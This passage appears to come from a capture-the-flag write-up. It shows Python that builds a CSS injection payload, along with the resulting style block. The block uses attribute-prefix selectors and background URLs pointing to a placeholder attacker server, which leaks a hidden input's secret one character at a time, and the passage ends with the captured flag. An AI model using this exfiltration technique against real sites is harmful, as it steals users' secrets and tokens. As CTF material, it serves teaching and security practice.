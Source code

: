 ```python

    for secret_param in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ {}_!?":
        attack_vector += attack_vector_tmpl.format(url=URL,
                                                   known_secret=known_secret,
                                                   try_secret=secret_param)

    attack_vector = "<style>" + attack_vector + "</style>"
    pyperclip.copy(attack_vector)
    return attack_vector


def main() -> None:
    known_secret: str = sys.argv[1] if len(sys.argv) != 1 else ""
    print(generate_attack_vector(known_secret=known_secret))


if __name__ == '__main__':
    main()
```

Attack vector is as follows.

```
<style>
input[value^="0"] { background: url(YOUR_SERVER?secret=0) }
input[value^="1"] { background: url(YOUR_SERVER?secret=1) }
...
input[value^="a"] { background: url(YOUR_SERVER?secret=a) }
...
</style>
```

Just send it to `Sheldon` repeatedly, then you can Capture The FLAG!

FLAG: `CTF{Clandestine_Secret_Stealing}`

